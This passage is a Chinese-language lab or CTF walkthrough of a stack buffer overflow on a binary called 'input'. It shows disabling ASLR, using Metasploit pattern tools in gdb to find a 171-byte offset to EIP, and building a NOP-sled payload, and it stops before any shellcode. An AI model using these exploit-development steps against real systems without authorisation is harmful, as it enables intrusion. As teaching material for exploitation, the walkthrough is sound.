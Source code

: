 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

可以看到没有任何保护，在用gdb调试前先关闭ASLR

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

关闭ASLR后在gdb中打开input文件

```
gdb -q input
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

新建一个终端使用metasploit生成一段字符串计算偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

将字符串复制到gdb中运行

```
run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

得到的内存区段错误是0x41376641，用这个来找到偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41376641
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

得到偏移量是171，用python生成字符串

```
run $(python2 -c 'print "A" * 171 + "B" * 5 + "\x90" * 1000')
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

我们看到了0x42424242分段内容，再到寄存器中看一下

```
info r
```
